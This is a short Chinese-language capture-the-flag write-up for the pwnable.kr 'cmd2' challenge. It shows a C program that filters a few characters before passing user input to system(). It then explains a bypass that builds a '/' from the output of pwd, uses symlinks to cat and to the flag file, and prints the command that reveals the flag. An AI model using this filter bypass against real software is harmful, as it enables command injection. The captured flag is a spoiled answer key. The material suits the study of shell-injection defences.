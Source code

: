 # pwnable.kr--4

1.cmd2

```c 
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

字符串过滤了 ‘/’ 

大神指出了通过pwd指令来构造‘/’的方法

首先在/tmp/c。那么，如果在/tmp/c目录下执行pwd命令就可以得到/tmp/c了。然后在/tmp下构造cat的软应用ln -s /bin/cat cat，在/tmp/c下建立flag的软引用ln -s /home/cmd2/flag flag。然后在/tmp/exploit/c下执行命令/home/cmd2/cmd2 "$(pwd)at f*"就可以得到flag了。其原理就是利用“$(pwd)at”构造出/tmp/cat命令。

```

$ cd c
$ /home/cmd2/cmd2 "\$(pwd)at f*"
$(pwd)at f*
FuN_w1th_5h3ll_v4riabl3s_haha

```

